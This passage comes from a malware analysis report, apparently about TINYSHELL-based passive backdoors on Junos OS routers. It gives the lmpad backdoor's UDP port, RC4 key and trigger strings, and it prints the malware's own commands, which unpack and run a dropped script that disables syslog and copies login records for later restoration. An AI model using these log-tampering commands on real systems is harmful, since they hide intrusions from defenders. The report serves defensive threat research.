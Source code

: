 Custom command

5

Relay the current connection to a specified IP and Port

Custom command

If byte 8 of the ICMP packet is `0`, the malware will spawn a listening server on TCP `port 31234` (passive mode). The listening backdoor server supports the same set of 5 commands as listed in the previous table, and the same encryption and authentication protocol.

If the string `1spCq0BMbJwCoeZn` is received, and the malware is currently operating as a listener and accepting connections on `port 31234`, then it will terminate the listening process.

### lmpad — TINYSHELL-Based Utility and Passive Backdoor

Sample four, named `lmpad` is an utility and a passive backdoor written in C. In addition to standard TINYSHELL capabilities it can also launch an external script that can perform process injection into two legitimate Junos OS processes to inhibit logging. The main purpose of this malware is to disable all possible logging before the operator connects to the router to perform hands-on activities and then later restore the logs after the operator disconnects. 

The malware begins by attempting to receive a UDP packet on port 33615, where it receives an RC4 encrypted message and sends an acknowledgement message in response. The malware also checks the decrypted received payload against the following hex bytes, terminating the connection if it doesn't match.

```
26 e7 2b 3a 1c a2 16 2d 61 89 57 a9 cd 4c e7 3c
```

The RC4 encryption key used to decrypt received UDP messages is: `0b3330c0b41d1ae2`.

After the initial check, the malware enters a listening mode, waiting for commands. In addition to standard TINYSHELL commands (command 2, 4 and 5) it also implements 5 other custom commands:

#### Command `0`

This command inhibits logging in preparation of hands-on threat actor activity on the router. It begins by writing a compressed zip archive to the file `/var/tmp/pfed_jdhcp6_trace.log`. It then executes the following command line to decompress the archive, execute an embedded script with argument `pre` and clean up the script after execution:

```
gzip -d /var/tmp/pfed_jdhcp6_trace.log -c > /var/tmp/pfed_jdhcp6_trace.log.bak; 
sh /var/tmp/pfed_jdhcp6_trace.log.bak pre ;
rm -rf /var/tmp/pfed_jdhcp6_trace.log /var/tmp/pfed_jdhcp6_trace.log.bak ;
kill -9 $
```

The following is the uncompressed script file:

```
pre_ssh() {
#closelog
cp /mfs/var/etc/syslog.conf /mfs/var/etc/syslog.conf0
sed -i '' 's/\/dev\/null #//g' /mfs/var/etc/syslog.conf0
sed -i '' 's/        /        \/dev\/null #/g' /mfs/var/etc/syslog.conf
ps -fcA |grep eventd | awk '{ print $1 }' | xargs kill -1
#last
cp -r /var/log/utx.log /var/log/utx.log0
cp -r /var/log/wtmp /var/log/wtmp0
}

post_ssh() {
#relog
cp /mfs/var/etc/syslog.conf0 /mfs/var/etc/syslog.conf
rm -f /mfs/var/etc/syslog.conf0
ps -fcA | grep eventd | awk '{ print $1 }' | xargs kill -1
#relast
```